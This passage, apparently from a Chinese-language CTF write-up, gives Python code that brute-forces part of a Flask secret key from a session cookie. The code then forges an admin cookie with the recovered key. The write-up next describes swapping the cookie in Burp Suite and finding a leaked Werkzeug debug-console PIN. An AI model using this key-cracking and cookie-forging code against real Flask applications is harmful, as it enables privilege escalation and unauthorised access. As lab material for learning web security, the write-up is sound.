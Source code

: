 ```python
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

                    data = payload.split(".")[0]

                    data = base64_decode(data)
                    if compressed:
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e



# 下面的代码用于爆破 cookie 得到 key

content = "{\"power\":\"guest\",\"user\":\"test\"}"

cookie = "eyJwb3dlciI6Imd1ZXN0IiwidXNlciI6InRlc3QifQ.ZTeojg.afpjfgsgpwulaVEE6liXb7Um4P8"

# 生成所有可能的两个字节的组合，以字符串形式
for combination in itertools.product(range(256), repeat=2):
    key = ''.join(f'{byte:02x}' for byte in combination)
    result = FSCM.decode(cookie, "This-random-secretKey-you-can't-get" + key)
    if "test" in str(result):
        print("This-random-secretKey-you-can't-get" + key)
        print(result)

# 下面的代码用于生成 cookie
key = "This-random-secretKey-you-can't-get9777"
content = "{\"power\":\"admin\",\"user\":\"admin\"}"
result = FSCM.encode(key, content)
print(result)
```

刷新一下，用 burpsuite 抓包，用生成的 cookie 替换原来 cookie ，发现有新的帖子提示
```
今天测试留言板的时候发现我的调试模式给出的pin码一直是119-692-758不变，真是奇怪呢
不过这个泄露了貌似很危险，别人就可以进我的console执行任意python代码了
```
